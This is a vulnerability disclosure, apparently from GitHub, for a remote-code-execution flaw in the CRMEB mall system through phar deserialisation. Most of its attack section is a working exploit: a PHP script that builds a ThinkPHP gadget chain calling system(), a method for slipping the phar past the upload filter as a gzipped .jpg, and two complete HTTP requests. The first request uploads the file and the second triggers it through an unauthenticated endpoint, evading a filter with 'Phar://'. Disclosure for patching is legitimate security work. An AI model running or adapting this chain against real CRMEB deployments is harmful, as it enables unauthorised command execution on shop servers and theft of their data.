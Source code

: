 BUG_Author:

Rui Jie

Affected version:

Version<=5.4.0

Vendor:
https://www.crmeb.com/

CRMEB open source mall system

Software:
https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:

app/api/controller/v1/PublicController.php

app/common.php

Description:
 A vulnerability categorised as critical has been identified in CRMEB. This affects the put_image section of the file common.php. Manipulation of the image/code parameter results in phar deserialisation enabling the RCE
 
 It's a complicated process.
 
 This system is based on thinkphp6 again, I can get the available deserialisation chain through code audit
 
```php
 <?php  
  
namespace think\model\concern;  
  
trait Attribute  
{  
    private $data = ["evil_key" => "calc"];  
    private $withAttr = ["evil_key" => "system"];  
}  
  
namespace think;  
  
abstract class Model  
{  
    use model\concern\Attribute;  
    private $lazySave;  
    protected $withEvent;  
    private $exists;  
    private $force;  
    protected $table;  
    function __construct($obj = '')  
    {  
        $this->lazySave = true;  
        $this->withEvent = false;  
        $this->exists = true;  
        $this->force = true;  
        $this->table = $obj;  
    }  
}  
namespace app\model\product\product;  
  
use crmeb\traits\ModelTrait;  
use think\Model;  
  
  
class StoreProductCate extends Model  
{  
}  
  
$a = new StoreProductCate();  
$b = new StoreProductCate($a);  
echo urlencode(serialize($b));  
$phar = new \Phar('x.phar');  
$phar->stopBuffering();  
$phar->setStub( 'GIF89a'.'<?php __HALT_COMPILER();?>');  
$phar->addFromString('test.txt', 'test');  
$phar->setMetadata($b);  
$phar->stopBuffering();
```
This generates a phar file containing the available serialisations, I try to pop up the calculator locally
After any user has logged in, we can try to upload this file as an avatar, but there are some filters here

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122332062.png)
Both the suffix and the file content are restricted here
We can try to gzip the phar file to bypass the content detection, modify the extension to .jpg renamed 123.jpg

Please note that the generation of phar file immediately after the modification of the suffix name for the jpg and then gzip compression last modification of the suffix name for the 123.jpg

I'll put 123.jpg here
![123.jpg](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130004529.jpg)

POC1

Note that here I'm using yakit's tags directly to read the contents of the local file 123.jpg before uploading it

```
POST /api/upload/image HTTP/1.1
Host: 127.0.0.21
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3eJTGWU51qa6ag3o
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Referer: http://127.0.0.21/pages/users/user_info/index
Origin: http://127.0.0.21
Accept-Encoding: gzip, deflate, br, zstd
Cookie: cb_lang=zh-cn; PHPSESSID=84e2385486352b76586e45157fd93cda; WS_ADMIN_URL=ws://127.0.0.21/notice; WS_CHAT_URL=ws://127.0.0.21/msg; XDEBUG_SESSION=11675
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Fetch-Mode: cors
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJkNDFkOGNkOThmMDBiMjA0ZTk4MDA5OThlY2Y4NDI3ZSIsImlzcyI6IjEyNy4wLjAuMjEiLCJhdWQiOiIxMjcuMC4wLjIxIiwiaWF0IjoxNzIwNzc0NDU2LCJuYmYiOjE3MjA3NzQ0NTYsImV4cCI6MTcyMzM2NjQ1NiwianRpIjp7ImlkIjoxLCJ0eXBlIjoiYXBpIn19.LeWiJQ-aB4EqFsXuWEur2iNuybXLyLzusTepZC896Gg
Sec-Fetch-Site: same-origin
Content-Length: 1437

------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="filename"

pics
------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="pics"; filename="123.jpg"
Content-Type: image/jpeg

{{file(D:\\123.jpg)}}
------WebKitFormBoundary3eJTGWU51qa6ag3o--

```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130007396.png)


You can get the location of the uploaded image
For example, here it is `http://127.0.0.21/uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg`
Now we can trigger it with the  `put_image` method in app/common.php(This is an unauthorised interface)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122345869.png)
There is a filter on phar://, which we can bypass with Phar://.
The readfile function will trigger the phar deserialisation implementation rce

POC2
```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.21
Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Referer: http://crmeb.cc//api/image_base64
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Content-Length: 53

{"image":"Phar://./uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg","code":""}
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122354438.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130009247.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution

This means you may need to upload once, trigger once.

Now we can execute any command to implement RCE！
